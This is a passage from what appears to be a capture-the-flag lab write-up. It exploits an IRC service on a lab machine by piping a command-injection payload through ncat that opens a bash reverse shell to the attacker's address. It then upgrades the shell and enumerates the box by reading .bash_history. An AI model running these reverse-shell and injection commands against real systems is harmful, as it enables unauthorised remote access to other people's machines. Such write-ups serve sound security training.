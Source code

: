 
reverse shell via IRC:

    echo "AB; bash -i >& /dev/tcp/10.10.14.3/9001 0>&1" | ncat 10.10.10.117 8067

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556514438383_image.png)


*wait for timeout… which didn’t result in a shell.*

retry but putting  bash `'` within the command just incase system is linked to nsh or dash

    echo "AB;  bash 'bash -i >& /dev/tcp/10.10.14.3/9001 0>&1'" | ncat 10.10.10.117 8067

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556514603758_image.png)


*connection established and reverse shell.*


## upgrade shell

    python -c 'import pty;pty.spawn("/bin/bash")'
    background with ctrl+z
    stty raw -echo
    fg (enter) (enter)
    
    export TERM=xterm

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556514867595_image.png)



## Enumerate box

print working directory

    pwd
![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556514916306_image.png)


search directory:

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556514944874_image.png)


check `.bash_history` file:

    cat .bash_history | less

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556514996210_image.png)

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556515027023_image.png)


found a `cd djmardov`

navigate to `cd djmardov`

